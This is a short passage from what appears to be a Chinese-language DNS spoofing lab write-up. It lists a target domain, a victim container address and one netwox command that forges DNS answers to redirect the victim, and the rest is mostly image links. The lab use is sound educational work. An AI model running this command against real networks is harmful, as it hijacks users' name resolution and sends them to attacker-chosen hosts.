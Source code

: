 ![image-20230423093418752](assets/image-20230423093418752.png)

## 3.2 直接欺骗用户响应 

### 3.2.1 攻击方式

目标域名: www.example.net

ip地址: 2.3.4.5

权威域名服务器: ns.example.net

ip地址: 55.66.77.88

目的用户：172.17.0.3

网卡: docker0

netwox 命令

```bash
sudo netwox 105 -h "www.example.net" -H "2.3.4.5" -a "ns.example.net" -A "55.66.77.88" --filter "src host 172.17.0.3" --device "docker0"
```

### 3.2.2 攻击效果

攻击前: 

![image-20230424190238551](assets/image-20230424190238551.png)
